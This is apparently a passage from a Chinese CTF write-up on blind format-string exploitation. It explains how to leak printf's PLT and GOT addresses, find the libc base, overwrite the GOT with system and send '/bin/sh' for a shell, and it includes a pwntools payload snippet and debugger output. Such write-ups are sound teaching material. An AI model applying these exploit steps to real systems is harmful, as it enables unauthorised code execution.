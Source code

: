 找到 main 函数在 0x0804860B ，需要将这部分定义为函数才能反编译，右键地址隔壁的名称 loc_804860B ，creat function 。

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-27-7UJQNJKfvUPjVkZT.png)

红色部分就是没有泄露出来的函数，后面跟的就是函数 plt 地址。

两种方法各有不同，结合实际使用。

### 解题流程

着重记录**格式化字符串盲打**，不一步一步分析这道题目漏洞（详细分析：[默小西](https://momomoxiaoxi.com/2017/12/26/Blindfmtstr/)博客）。这道题目思路是：

1. 确定 printf 的 plt 地址
2. 通过泄露 plt 表中的指令内容确定对应的 got.plt 表地址
3. 通过泄露的 got.plt 表地址泄露 printf 函数的地址
4. 通过泄露的 printf 的函数地址确定 libc 基址，从而获得 system 地址
5. 使用格式化字符串的任意写功能将 printf 的 got.plt 表中的地址修改为 system 的地址
6.  send 字符串 “/bin/sh” ，那么在调用 printf(“/bin/sh”) 的时候实际上调用的是 system(“/bin/sh;”) ，从而成功获取shell

#### 确定 printf 的 plt 地址

将泄露出来的程序，放入 ida 中分析获得，函数名后半截就是地址 0x8048490 ：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200626231225.png)

#### 泄露 got.plt 

和泄露程序 payload 高度相似：

```python
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
```

**注解：**

为什么接收 'right:\xff\x25' ？

right: 是固定回显，\xff\x25 是无用字节码。实际上 0x8048490 的汇编是这样的：

```shell
pwndbg> pdisass 0x8048490 
 ► 0x8048490 <printf@plt>       jmp    dword ptr [0x804a018] <0xf7e4d670>
 
   0x8048496 <printf@plt+6>     push   0x18
   0x804849b <printf@plt+11>    jmp    0x8048450
# 字节码
pwndbg> x /20wx 0x8048490
0x8048490 <printf@plt>:	0xa01825ff	0x18680804	0xe9000000	0xffffffb0
```

0x8048490 指向是一条跳转 got.plt 指令，我们需要其中跳转的目标地址。\xff\x25 就是跳转指令的字节码，我们就要先接收 2 字节垃圾数据，然后再接收 4 字节的 got.plt 地址。
